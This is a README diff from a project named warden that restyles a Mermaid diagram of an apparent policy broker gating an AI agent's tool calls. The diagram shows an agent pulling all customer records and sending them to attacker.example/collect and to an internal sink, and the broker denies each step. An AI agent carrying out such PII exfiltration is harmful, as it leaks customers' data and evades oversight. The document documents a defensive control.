

One commit to slavikztsv/warden changed the fifth of 5 diagrams in README.md. Above: the diagram before and after it, drawn with Mermaid (forest theme). The commit also changed other lines of this file, not shown here.

First line of the commit message:
docs: give the diagrams a colour system, and chart the live results

````diff
--- a/README.md
+++ b/README.md
@@ -663,17 +758,28 @@
 ```mermaid
 sequenceDiagram
+    autonumber
     participant A as Agent
     participant B as Broker
     participant D as customers.db
 
-    A->>B: query_customers(id=8812) — 1 row
-    B->>D: Allowed
-    D-->>A: 1 record
-    Note over B: task now holds data_class=pii
-    A->>B: query_customers(filter=all) — 10,312 rows
-    B-->>A: DENY rows.bounded (1 + 10,312 > 50)
-    A->>B: http_fetch(attacker.example/collect)
-    B-->>A: DENY egress.allowlist
-    A->>B: http_fetch(docstore.internal/feedback)
-    B-->>A: DENY egress.pii_sink — allowlisted, but the task holds PII
+    rect rgba(46, 125, 91, 0.10)
+        Note over A,D: In scope, in budget
+        A->>B: query_customers(id=8812) · 1 row
+        B->>D: Allowed
+        D-->>A: 1 record
+    end
+
+    rect rgba(69, 39, 160, 0.12)
+        Note over B: The task now holds data_class=pii<br/>Every later decision receives this
+    end
+
+    rect rgba(178, 58, 52, 0.10)
+        Note over A,D: Each request is individually plausible
+        A->>B: query_customers(filter=all) · 10,312 rows
+        B-->>A: DENY rows.bounded · 1 + 10,312 > 50
+        A->>B: http_fetch(attacker.example/collect)
+        B-->>A: DENY egress.allowlist
+        A->>B: http_fetch(docstore.internal/feedback)
+        B-->>A: DENY egress.pii_sink · allowlisted, but the task holds PII
+    end
 ```
````
